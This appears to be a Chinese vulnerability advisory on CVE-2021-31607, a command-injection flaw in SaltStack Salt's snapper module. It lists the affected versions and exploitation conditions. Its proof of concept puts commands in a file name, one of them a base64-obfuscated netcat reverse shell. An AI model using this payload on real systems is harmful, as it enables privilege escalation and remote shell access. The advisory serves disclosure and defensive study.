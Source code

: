 # SaltStack Minion 命令注入漏洞 CVE-2021-31607

# SaltStack Minion 命令注入漏洞 CVE-2021-31607

## 漏洞描述

2021年4月28日，深信服安全团队监测到一则Salt组件存在 SaltStack Minion 命令注入漏洞的信息，漏洞编号：CVE-2021-31607，漏洞威胁等级：中危。

该漏洞是由于在SaltStack Salt 2016.9至3002.6中，快照程序模块中存在一个命令注入漏洞，攻击者可利用该漏洞获得权限的情况下，对一个分支系统的本地特权进行升级。

参考阅读：

* https://sec.stealthcopter.com/saltstack-snapper-minion-privledge-escaltion/
* https://nvd.nist.gov/vuln/detail/CVE-2021-31607
* https://nox.qianxin.com/vulnerability/detail/97347

## 漏洞影响

```
2016.9 ≤ SaltStack Salt ≤ 3002.6
```

## 漏洞复现

利用条件 : 

1. 用户认证：需要用户认证
2. 前置条件：配置了快照程序，使用snapper模块
3. 触发方式：本地

poc：

```
echo hi > '$(touch HACKED).txt'
反弹shell：
echo hi > '$(echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMSA0NDQ0|base64 -d|sh -i).txt'
```


